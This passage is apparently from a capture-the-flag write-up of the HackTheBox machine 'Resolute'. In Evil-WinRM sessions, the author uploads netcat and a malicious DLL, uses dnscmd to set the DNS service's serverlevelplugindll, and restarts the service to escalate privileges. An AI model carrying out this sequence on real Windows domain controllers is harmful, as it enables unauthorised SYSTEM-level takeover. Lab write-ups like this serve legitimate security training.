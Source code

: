 ```c
	return TRUE;
}
```

After compiling this, I upload both the DLL and netcat to the machine.

```
*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> upload /root/htb/resolute/nc.exe
Info: Uploading /root/htb/resolute/nc.exe to C:\windows\system32\spool\drivers\color\nc.exe

Data: 53248 bytes of 53248 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> upload /root/htb/resolute/pwn.dll
Info: Uploading /root/htb/resolute/pwn.dll to C:\windows\system32\spool\drivers\color\pwn.dll

Data: 305604 bytes of 305604 bytes copied

Info: Upload successful!
```

Next, I'll reconfigure the dns service and restart it.

```
*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> cmd /c 'dnscmd RESOLUTE /config /serverlevelplugindll C:\Windows\System32\spool\drivers\color\pwn.dll'

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> cmd /c "sc stop dns"

SERVICE_NAME: dns 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> cmd /c "sc start dns"

SERVICE_NAME: dns 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3500
        FLAGS
```
